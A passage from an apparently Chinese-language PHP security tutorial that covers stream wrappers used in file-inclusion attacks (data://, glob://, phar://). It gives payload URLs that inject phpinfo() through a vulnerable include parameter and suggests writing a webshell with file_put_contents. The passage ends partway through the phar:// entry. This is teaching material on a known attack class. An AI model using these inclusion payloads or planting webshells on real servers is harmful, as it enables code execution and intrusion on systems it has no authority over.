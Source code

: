 *   **用法**

    *   data://text/plain

        ```php
        http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>   //执行后面的代码
        ```

    *   data://text/plain;base64

        ```php
        http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b   //执行后面的解码的代码，解码后为<?php%20phpinfo();?>
        ```

        ```url
        data:,<文本数据>
        data:text/plain,<文本数据>
        data:text/html,<HTML代码>
        data:text/html;base64,<base64编码的HTML代码>
        data:text/css,<CSS代码>
        data:text/css;base64,<base64编码的CSS代码>
        data:text/javascript,<Javascript代码>
        data:text/javascript;base64,<base64编码的Javascript代码>
        data:image/gif;base64,base64编码的gif图片数据
        data:image/png;base64,base64编码的png图片数据
        data:image/jpeg;base64,base64编码的jpeg图片数据
        data:image/x-icon;base64,base64编码的icon图片数据
        
        如果是参数是通过url传递，记得要url编码
        ```

*   通过执行php代码，file_put_contents($filename,$content) 写一个webshell进去。

### glob://

*   **条件**

    * allow_url_fopen：无

    * allow_url_include：无

*   **作用**

  数据流包装器自 PHP 5.3.0 起开始有效，查找匹配的文件路径模式

*   **用法**

```php
glob://ext/spl/examples/*.php  //循环 ext/spl/examples/ 目录里所有 *.php 文件
```

### phar://

*   **条件**

    * allow_url_fopen：无

    * allow_url_include：无
* **作用**
